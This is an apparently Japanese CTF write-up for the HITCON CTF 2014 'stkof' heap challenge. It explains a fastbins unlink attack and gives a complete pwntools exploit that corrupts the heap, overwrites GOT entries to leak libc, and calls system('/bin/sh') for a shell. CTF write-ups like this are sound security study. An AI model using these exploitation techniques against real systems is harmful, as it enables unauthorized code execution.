 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2014/hitcon-ctf-2014-stkof/
  - /blog/2016/09/21/hitcon-ctf-2014-stkof/
date: "2016-09-21T03:29:10+09:00"
tags: [ "ctf", "writeup", "pwn", "hitcon", "heap", "fastbins" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/hitcon-ctf-2014/stkof" ]
---
```


# HITCON CTF 2014: stkof


ちひろさんが[fastbinsで解いてた](http://pwn.hatenadiary.jp/entry/2016/09/20/002430)ので解いた。
fastbinsは始めて。
fastbins unlink attackに関してはkatagaitaiの資料が便利だった: <http://www.slideshare.net/bata_24/katagaitai-ctf-1-57598200>。

mallocされたpointerのlistがあるのでfastbinsを使わなくてもできるはず。こちらは先日のASISで既に使っている: <https://kimiyuki.net/blog/2016/09/12/asis-ctf-finals-2016-car-market/>。

## solution

無制限のheap buffer overflowがあるので適当にする問題。
64bitだし構造的にrevが楽なのでありがたい。

### fastbins unlink attack

1.  `malloc`するchunkの(内部の)大きさは統一しておく。これが異なると異なるfastbinsに登録されるため。
2.  いくらか`malloc`しひとつ`free`して、これをarena内のfastbinsのlistに登録させる。
3.  fastbinsに載せたchunkのmetadataを書き換える。
    -   その`fd`を別の位置に向ける。
    -   この時点では何も制約はない。
4.  `fd`の指す位置$+8$、その`size` fieldにあたる位置をchunkのsizeにする。
5.  `malloc`する。
    -   この時点でその結果である`p = malloc(size) == q+16`に対し`q->fd->size == size`のcheckが存在する。
    -   この`q->fd`がfastbinsに登録される。
6.  再度`malloc`すると、先の`q->fd`がその結果として返される。

この後いくらか`malloc`を呼んでも問題ないようだ。

## implementation

ubuntu 16.04環境で解いた。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='localhost')
parser.add_argument('port', nargs='?', default=8000, type=int)
args = parser.parse_args()
context.log_level = 'debug'
p = remote(args.host, args.port)

def malloc(l):
    p.sendline(str(1))
    p.sendline(str(l))
    x = int(p.recvline())
    assert p.recvline().strip() == 'OK'
    return x
def fread(x, s):
    p.sendline(str(2))
    p.sendline(str(x))
    p.sendline(str(len(s)))
    p.send(s)
    assert p.recvline().strip() == 'OK'
def free(x):
    p.sendline(str(3))
    p.sendline(str(x))
    assert p.recvline().strip() == 'OK'
def strlen(x, ok=True):
    p.sendline(str(4))
    p.sendline(str(x))
    if ok:
        return p.recvuntil('OK\n', drop=True)

elf = ELF('./stkof')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
g_cnt = 0x602100
g_list = 0x602140

prev_size = 0x0
size = 0x8
fd = 0x10
bk = 0x18
PREV_INUSE = 1

# fastbins unlink attack
chunk_size = 0x20 # this is ok if 0x30, 0x40, etc
n = chunk_size
for i in range(n):  # set g_cnt = n = chunk_size
    malloc(chunk_size - size)
free(n)
payload = ''
payload += 'A' * (chunk_size - size - 0x8)
payload += 'A' * 0x8 # prev_size (used)
payload += p64(0x20) # size, setting PREV_INUSE is allowd
payload += p64(g_cnt - size) # fd
fread(n-1, payload)
malloc(chunk_size - size)
malloc(chunk_size - size) # this call returns (g_cnt + size)

# got overwrite
payload = ''
payload += 'A' * ((g_list+8) - (g_cnt+size))
payload += p64(elf.got['strlen'])
payload += p64(elf.got['__libc_start_main'])
fread(n+2, payload)
fread(1, p64(elf.plt['printf']))  # overwrite the got.strlen with plt.printf

# leak libc address
s = strlen(2)
assert s.endswith('...\n')
libc_start_main = u64(s[: -4].ljust(8, '\0'))
log.info('__libc_start_main: %#x', libc_start_main)
libc_base = libc_start_main - libc.symbols['__libc_start_main']
log.info('libc base: %#x', libc_base)

# system('/bin/sh')
fread(1, p64(libc_base + libc.symbols['system']))  # overflow the got.strlen with system
fread(2, '/bin/sh\0')
strlen(2, ok=False)

time.sleep(1)
p.sendline('id')
p.interactive()
```
